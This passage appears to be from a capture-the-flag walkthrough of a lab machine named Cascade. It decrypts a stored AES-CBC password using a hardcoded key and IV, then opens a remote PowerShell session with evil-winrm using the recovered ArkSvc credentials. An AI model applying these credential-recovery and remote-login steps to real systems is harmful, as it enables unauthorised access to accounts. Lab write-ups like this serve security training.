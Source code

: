 ![]({{site.baseurl}}/images/pages/cascade/4.png)

So making a note of all information which will help us to get decrypt the password.

| Detail            | Hash/Key                 |
| ----------------- | ------------------------ |
| Hash From SQLite  | BQO5l5Kj9MdErXx6Q6AGOw== |
| Secret Key        | c4scadek3y654321         |
| IV                | 1tdyjCbY1Ix49842         |
| Encryption Method | AES                      |
| Mode              | CBC                      |
| KeySizeBit        | 128                      |

Using Online tool to decrypt we get the decrypted password for the user ArkSvc

![]({{site.baseurl}}/images/pages/cascade/5.png)



> Password for ArkSvc
>
> __arksvc:w3lc0meFr31nd__

Use "Evil-WinRM" to login to target with above credentials.

```ruby
evil-winrm -i 10.10.10.182 -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> net user ArkSvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:18:20 PM
Password expires             Never
Password changeable          1/9/2020 5:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/29/2020 10:05:40 PM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```
